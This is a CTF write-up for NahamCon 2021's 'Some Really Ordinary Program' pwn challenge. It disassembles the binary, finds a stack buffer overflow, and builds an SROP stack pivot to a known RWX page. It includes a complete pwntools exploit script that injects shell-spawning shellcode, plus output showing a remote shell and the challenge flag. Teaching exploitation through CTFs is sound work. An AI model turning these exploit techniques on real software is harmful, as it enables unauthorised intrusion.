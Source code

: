 # NahamCon CTF 2021

## Some Really Ordinary Program [medium]

> Author: @M_alpha#3534
>
> I'm starting to get pretty good at this whole programming thing. Here's a basic program I wrote that will echo back what you say. 
>
> [some-really-ordinary-program](some-really-ordinary-program)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

_Some Really Ordinary Program_ isn't an overstatement, this is the 3rd _and 4th_ time I've solve this same problem in 2021.  The _and 4th_ comes from this problem being nearly identical to a similar problem from another CTF that ran at the same time as this CTF.  I'm not complaining, just reporting.

Anyway, the short of it is, we have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

These 3rd and 4th iterations of this problem in 2021 have up'd the game a bit requiring stack relocating to a known location for some easy shellcode injection.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
  401000:	48 89 f2             	mov    rdx,rsi
  401003:	48 89 fe             	mov    rsi,rdi
  401006:	b8 00 00 00 00       	mov    eax,0x0
  40100b:	48 89 c7             	mov    rdi,rax
  40100e:	0f 05                	syscall
  401010:	c3                   	ret
  401011:	48 89 f2             	mov    rdx,rsi
  401014:	48 89 fe             	mov    rsi,rdi
  401017:	b8 01 00 00 00       	mov    eax,0x1
  40101c:	48 89 c7             	mov    rdi,rax
  40101f:	0f 05                	syscall
  401021:	c3                   	ret
  401022:	55                   	push   rbp
  401023:	48 89 e5             	mov    rbp,rsp
  401026:	48 81 ec f4 01 00 00 	sub    rsp,0x1f4
  40102d:	48 bf 00 20 40 00 00 	movabs rdi,0x402000
  401034:	00 00 00
  401037:	be 1f 00 00 00       	mov    esi,0x1f
  40103c:	e8 d0 ff ff ff       	call   0x401011
  401041:	48 8d 3c 24          	lea    rdi,[rsp]
  401045:	be 20 03 00 00       	mov    esi,0x320
  40104a:	e8 b1 ff ff ff       	call   0x401000
  40104f:	48 8d 3c 24          	lea    rdi,[rsp]
  401053:	48 89 c6             	mov    rsi,rax
  401056:	e8 b6 ff ff ff       	call   0x401011
  40105b:	c9                   	leave
  40105c:	c3                   	ret
  40105d:	e8 c0 ff ff ff       	call   0x401022
  401062:	eb f9                	jmp    0x40105d
```

Yep, that's all of it.

Loading this up in GDB and running with `starti` you can quickly see that `main` is at `0x401022`, and that functions `0x401000` and `0x41011` are simple fronts to `read` and `write`.

Starting from `main` (`0x401022`), `0x1f4` bytes of stack is allocated, then a string pointer (`0x402000`) and its length are _moved_ into `rdi` and `esi`, then `write` (`0x401011`) is called.  This emits to your terminal: `What you say is what you get.\n`.  Next `read` (`0x401000`) is called with parameters _stack_ and `0x320` for the location and length.  

Well there's your problem.  The stack was allocated for `0x1f4` and `read` is instructed to read up to `0x320` bytes creating a _bof_ vulnerability.

The next set of lines just emit to your terminal whatever you inputted, then we start all over again by calling `main`.  

> I guess I may have _jumped_ ahead of myself, the entry point is actually at the bottom at `0x40105d`, this calls `main`, than then jumps back to calling `main` in a loop.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x some-really-ordinary-program
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x some-really-ordinary-program
0x0000000000402000 0x0000000000403000 0x0000000000002000 rwx some-really-ordinary-program
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the end of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./some-really-ordinary-program')
binary.symbols['main'] = 0x401022
binary.symbols['midread'] = 0x401006

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31225)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main` and `midread`.

> `midread` is the midpoint of the `read` frontend function described above.  Since all the registers are correct except for `rax` and `rdi`, it was only necessary to get the tail end of that function.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x402ff8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack at the end of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += (0x1f4 + 8) * b'A'
payload += p64(binary.sym.midread)
payload += p64(syscall)
payload += bytes(frame)

p.sendafter('.\n',payload)
```

The payload just needs to fill up the `0x1f4` byte buffer plus 8 bytes for the `push rbp`, then call `midread` followed by `syscall` and our frame.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After that the rt_sigreturn syscall will kick in and update all the registers with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += asm(shellcraft.sh())
payload += (0x1f4 + 8 - len(payload)) * b'A'
payload += p64(stack - 0x1f4 - 8)

p.sendafter('.\n',payload)

# take out the garbage
p.recvuntil(p64(stack - 0x1f4 - 8))
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time we inject some shellcode, pad, and then replace the return address with the location of our shellcode.

The _take out the garbage_ just receives back our payload from the `write` that `main` calls after the `read` to prettify our output for this writeup.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/ordprog/some-really-ordinary-program'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 31450: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{175c051dbd3db6857f3e6d2907952c87}
```

